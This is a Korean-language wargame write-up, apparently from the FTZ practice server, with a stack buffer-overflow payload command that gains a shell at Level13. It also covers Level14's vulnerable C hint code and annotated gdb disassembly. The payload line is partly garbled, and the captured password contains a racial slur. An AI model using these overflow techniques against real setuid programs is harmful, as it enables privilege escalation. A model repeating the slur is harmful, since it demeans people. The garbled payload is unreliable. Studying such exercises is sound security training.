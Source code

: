 ```
/home/level13/attackme `python -c 'print "A"*1036+"\x67\x45><1036+"\x67\x45\x23\x01"+"A"*12+"\x6a\xf4\xff\xbf"'`
```

sh-2.05b$ my-pass
TERM environment variable not set.
Level14 Password is "what that nigga want?".





## Level14

### 1. Directory info

-rwsr-x---    1 level15  level14     13801 12월 10  2002 attackme

-rw-r-----    1 root     level14       346 12월 10  2002 hint

drwxr-xr-x    2 root     level14      4096  2월 24  2002 public_html

drwxrwxr-x    2 root     level14      4096  1월 11  2009 tmp

### 2. hint

```c
#include <stdio.h>
#include <unistd.h>

main()
{
  int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```
소스코드 분석 내용 : buf를 입력 받고, check를 0xdeadbeef로 바꿔야 할듯?

### 3. gdb attackme
```
0x08048490 <main+0>:	push   ebp
0x08048491 <main+1>:	mov    ebp,esp
0x08048493 <main+3>:	sub    esp,0x38
0x08048496 <main+6>:	sub    esp,0x4
0x08048499 <main+9>:	push   ds:0x8049664
; stack에 0x8049664 값을 넣기
0x0804849f <main+15>:	push   0x2d
; stack에 0x2d = 45
0x080484a1 <main+17>:	lea    eax,[ebp-56]
; move eax ebp-56
0x080484a4 <main+20>:	push   eax
; stack에 eax
0x080484a5 <main+21>:	call   0x8048360 <fgets>
; 함수 호출 규약에 따라 fgets(eax,0x2d,0x8049664) 와 같은 형태로 변환
0x080484aa <main+26>:	add    esp,0x10
0x080484ad <main+29>:	cmp    DWORD PTR [ebp-16],0xdeadbeef
; int check는 ebp-16에 위치 하고 있으며, 해당 값이 0xdeadbeef로 설정되어 있어야 함
0x080484b4 <main+36>:	jne    0x80484db <main+75>
; jne = jump not equal 두 값이 같지 안다면 0x80484db로 이동 -> 바이너리 종료
0x080484b6 <main+38>:	sub    esp,0x8
```